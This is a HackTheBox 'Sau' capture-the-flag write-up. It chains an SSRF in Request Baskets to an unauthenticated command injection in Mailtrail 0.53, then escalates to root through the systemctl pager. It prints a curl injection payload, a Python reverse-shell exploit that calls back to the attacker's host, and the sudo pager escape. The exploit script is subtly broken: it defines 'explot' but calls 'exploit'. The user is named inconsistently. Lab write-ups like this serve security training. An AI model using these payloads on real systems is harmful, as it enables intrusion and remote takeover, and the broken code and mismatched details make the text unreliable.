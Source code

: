 ```yaml
---
title: Sau Writeup - HackTheBox
date: 2024-01-05
categories:
  - Writeups
  - HTB
tags:
  - Linux
  - HTB
  - CTF
  - Easy
img_path: /assets/img/commons/sau/
image: sau.png
---
```


Hello!

In this write-up, we will dive into the **HackTheBox** [**Sau**](https://app.hackthebox.com/machines/551) machine.
It is a **Linux** machine on which we will carry out a **SSRF attack** that will allow us to access an HTTP service that was filtered. After that, we will take advantage of the possibility of doing **RCE** and we will be able to get a **Reverse Shell** and we will have gained access to the system.
Then, we will proceed to do a **Privilege Escalation** using the **systemctl pager** in order to own the system.


Let's go!

## Active recognition
---

As a first step, we will execute the `ping` command to verify that the target machine is active.

```bash
> ping -c 1 10.10.11.224
PING 10.10.11.224 (10.10.11.224) 56(84) bytes of data.
64 bytes from 10.10.11.224: icmp_seq=1 ttl=63 time=1928 ms

--- 10.10.11.224 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1927.639/1927.639/1927.639/0.000 ms
```

## Port scaning
---

Next, we run a scan with `nmap` to identify open ports on the target machine.

```bash
nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv  -n -Pn 10.10.11.224

Nmap scan report for 10.10.11.224
Host is up, received conn-refused (0.048s latency).
Scanned at 2023-12-31 12:50:26 EST for 2s
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE REASON
22/tcp    open     ssh     syn-ack
80/tcp    filtered http    no-response
55555/tcp open     unknown syn-ack
```

After the port enumeration, we can see that we cannot access port 80 (because it is filtered) or port 22 (because we don't have credentials to access via SSH). We try to access `10.10.11.224:55555` in the browser: 

![home](home.png)

As we can see, the version of the web service **Request Baskets** running is 1.2.1.


## Exploitation
---

Searching for information on the internet, we found that the web service **Request Baskets** which is running on the server is vulnerable to the SSRF (Server Side Request Forgery) attack.

### How does the SSRF vulnerability work here
Request-Baskets operates as a web application designed to collect and log incoming HTTP requests directed to specific endpoints known as "baskets". During the creation of these baskets, users have flexibility to specify alternative servers to which these requests should be forwarded. The critical issue here lies in the fact that users can inadvertently specify services they shouldn't have access to, including those typically restricted within a network environment.

For example, in this machine where the server hosts Requests-Baskets on port 55555 and simultaneously runs an HTTP application on port 80. The HTTP server is configured to exclusively interact with allowed users. In this context, we can exploit the SSRF vulnerability by creating a basket that forwards requests to `http://localhost:80`, effectively bypassing the previous network restrictions and gaining access to the HTTP server, which should have been restricted to us.


### Exploiting the SSRF vulnerability
First, let's create a request basket and adjust its settings as following:

![basket_config](basket_config.png)

1. `insecure_tls` set to **true** will bypass certificate verification
2. `proxy_response` set to **true** will send response of the forwarded server back to our client
3. `expand_path` set to **true** makes `forward_url` path **expanded** when original `http request` contains **compound** path.

Second, comes the moment of truth. Let's find out what lurks inside our Port **80** by visiting our bucket **url**.

![http_home](http_home.png)


## Information gathering
---
Now, we know the service running on port **80** is **Mailtrail** of version **0.53**.

After some research, we found that the running version of mailtrail is vulnerable to an **Unathenticated OS Command Injection (RCE)**.

We can do some tests from the terminal using `curl`:

```bash
curl 'http://10.10.11.224:55555/b9xkp4b/login' --data 'username=;`id > /tmp/bbq`'
```

### Obtaining a Reverse Shell
Although we can run commands with `curl`, we are going to use the following python script to get a reverse shell:

```python
import sys
import os
import base64

# Arguments
YOUR_IP = sys.argv[1]
YOUR_PORT = sys.argv[2]
TARGET_URL = sys.argv[3]

print("\n[+] Started MailTrail version 0.53 Exploit")

# Fail-safe for arguments
if len(sys.argv) != 4:
	print("Usage: python3 mailtrail.py <your_ip> <your_port> <target_url>")
	sys.exit(-1)

# Exploit the vulnerability
def explot(my_ip, my_port, target_url):
	# Defining python3 reverse shell payload
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''

	# Encoding the payload
	encoded_payload = base64.b64encode(payload.encode()).decode()

	# curl command that is going to be executed
	command = f"curl '{target_url}/login' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"

	# Executing the curl command
	os.system(command)

print("\n[+] Exploiting MailTrail on {}".format(str(TARGET_URL)))
try:
	exploit(YOUR_IP, YOUR_PORT, TARGET_URL)
	print("\n[+] Successfully exploited!")
	print("\n[+] Check your reverse shell listener")
except:
	print("\n[!] An error has occured. Try again!")
```

We put `netcat` in listening:

```bash
nc -lnvp 443
```

And we are in!

![reverse shell](rev_shell.png)


### Obtaining the user flag
Once we are in, we can get the user flag:

```bash
cd ~
ls
# We see 2 files: peas.txt user.txt
cat user.txt
```


## Privilege escalation
---
Now that we have user access to the system, let's look at how we can escalate privileges.

We start by looking for which processes are running with sudo permissions and, in addition, are visible to the user logan. We execute the command:

```bash
sudo -l
```

After running it, we can see that the user puma has sudo access to the **systemctl status trail.service** command.

Interesting thing here is that we are using `systemctl` binary. And, in case you didn't know, If we can execute `systemctl status` as **root**, we can spawn another shell in the pager with **root** privileges.

Execute the command:

```bash
systemctl status trail.service
```

And, once inside `less` interface, execute `!sh` command and pop yourself **root** shell.

![root_shell](root_shell.png)

Finally, we have access as superuser, we have the whole system committed and (of course) we can now obtain the root flag of the machine.

> H4Ppy H4ck1ng!
